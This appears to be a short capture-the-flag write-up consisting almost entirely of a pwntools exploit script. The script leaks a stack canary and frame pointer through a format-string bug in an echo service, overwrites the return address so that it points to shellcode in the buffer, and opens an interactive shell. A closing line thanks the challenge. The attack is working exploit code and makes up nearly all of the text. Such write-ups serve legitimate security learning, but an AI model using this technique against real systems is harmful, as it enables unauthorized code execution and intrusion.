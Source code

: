```python
r = remote(HOST, PORT)

r.recvuntil("echo back:")
log.info("leaking canary & ebp...")
r.send(".%26$p.%29$p")
resp = r.recv(1024)
resp = r.recv(1024)

canary = int(resp.split(".")[1], 16)
ebp = int(resp.split(".")[2], 16)
buf = ebp - 0x9c + 6 + 8

log.success("canary: " + hex(canary))
log.success("ebp: " + hex(ebp))
log.success("buf: " + hex(buf))

r.recvuntil("echo back: ")

canary |= 0x41 # remove the null byte first
payload = "%122c" # padding to canary
payload += p32(canary)
payload += "A"*28 # padding to return address
payload += p32(buf) # return address set to buffer's address (=shellcode)
payload += p32(4) # fd

log.info("sending payload...")
r.send(payload)

r.recvuntil("echo back: ")
payload = "%122c" # add the null byte back into the canary
log.info("correcting canary...")
r.send(payload)

r.recvuntil("echo back: ")
log.info("sending shellcode...")
r.send(shellcode)

r.recvuntil("echo back: ")
r.send("exit\n")

r.interactive()

```

Great challenge, learn a lot from it!

